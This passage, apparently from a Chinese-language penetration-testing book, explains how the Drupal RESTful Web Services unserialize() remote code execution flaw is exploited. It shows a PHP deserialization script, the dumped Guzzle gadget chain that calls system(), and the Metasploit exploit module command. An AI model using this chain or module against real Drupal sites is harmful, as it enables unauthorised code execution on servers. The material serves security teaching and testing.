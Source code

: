 由于我们使用基于`GuzzleHttp`客户端的负载，我们需要安装 Guzzle。我们可以使用以下 PHP 代码对其进行反序列化：

```
<?php
require __DIR__ . '/vendor/autoload.php';
$obj= unserialize(json_decode(file_get_contents("./payload.txt")));
var_dump($obj);
?>
```

运行代码将给我们以下输出：

```
object(GuzzleHttp\Psr7\FnStream)#3 (2) {["methods":"GuzzleHttp\Psr7\FnStream":private]=>array(1) {["close"]=>array(2) {[0]=>object(GuzzleHttp\HandlerStack)#2 (3) {["handler":"GuzzleHttp\HandlerStack" :private]=>string(1) "id"["stack":"GuzzleHttp\HandlerStack":private]=>array(1) {[0]=>array(1) {[0]=>string(4) "system"}}["cached":"GuzzleHttp\HandlerStack" :private]=>bool(false)}[1]=>string(7) "resolve"}}["_fn_close"]=>array(2) {[0]=>object(GuzzleHttp\HandlerStack)#2 (3) {["handler":"GuzzleHttp\HandlerStack" :private]=>string(1) "id"["stack":"GuzzleHttp\HandlerStack":private]=>array(1) {[0]=>array(1) {[0]=>string(4) "system"}}["cached":"GuzzleHttp\HandlerStack" :private]=>bool(false)}[1]=>string(7) "resolve"}
```

当执行时，会导致`system()`函数执行传递给该函数的命令，并将输出返回给我们。

# 通过 Metasploit 使用 unserialize()利用 RESTful Web Services RCE

现在我们了解了序列化的概念以及如何对有效载荷进行序列化，让我们使用 Metasploit 的`exploit`模块来利用这个漏洞。执行以下命令来使用`exploit`模块：

```
use exploit/unix/webapp/drupal_restws_unserialize
```

以下截图显示了前述命令的输出：

![](img/53af4093-02c2-4f7e-a999-34476b2a707d.png)

然后我们设置选项并运行利用。运行 Metasploit 模块后，我们会观察到它首先通过询问`CHANGELOG.txt`来查找**SA-CORE-2019-003**补丁来执行补丁级别检查。执行`id`命令以确认 Drupal 安装上的 RCE，如下所示：
